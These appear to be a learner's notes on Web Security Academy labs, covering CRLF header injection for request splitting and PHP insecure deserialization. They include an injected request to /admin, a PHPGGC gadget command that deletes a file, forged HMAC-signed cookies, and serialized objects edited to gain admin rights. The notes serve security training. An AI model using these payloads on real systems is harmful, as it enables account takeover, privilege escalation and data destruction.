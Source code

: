 ### Request splitting via CRLF injection

Add a `foo` header and from `inspector` change the value of foo header like below

`bar\r\n
Host: 0aab009204d51605c0a31134007c0017.web-security-academy.net\r\n
\r\n
GET /admin HTTP/1.1`

Send requests repeatedly until you get 302 redirect to /my-account with the session cookie of the administrator

# Insecure Deserialization

Look for:

- Cookies that are encoded and serializing objects
- references to a PHP file like `/libs/CustomTemplate.php`
- If an object-like thing comes out by Base64 decoding the session from URL decoding, there may be an opportunity for privilege escalation.

PHP:

The loose equality operator **`==`**considers a string and **`0`**to be equal.

- [PHPGGC](https://github.com/ambionics/phpggc)
    - ex. `docker run --rm phpgc Symfony/RCE4 exec 'rm /home/carlos/morale.txt' | base64 -w 0 | pbcopy`
- [PREPL](https://replit.com/languages/php_cli)
    - REPL
- tips

```
$object = "OBJECT_GENERATED_BY_PHPGGC";
$secretKey = "LEAKED_SECRET_KEY_FROM_PHPINFO";
$cookie = urlencode('{"token":"' . $object . '","sig_hmac_sha1":"' . hash_hmac('sha1', $object, $secretKey) . '"}');
echo $cookie;
```

```
Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjowO30=

Base64 decoded
O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:0;}
```

As we can see there is a field key called `admin` with one boolean filed value 0 -> False. Changing the boolean value to 1 automatically we are going to be a administrator.

`O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:1;}`

modifying PHP serialized data types

```
Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJqaTAxZGZneWRxN2I4amprNHZycXBjdzl3eGZpbXA5ZSI7fQ==

Base64 decoded
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"ji01dfgydq7b8jjk4vrqpcw9wxfimp9e";}

O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";b:1;}
```
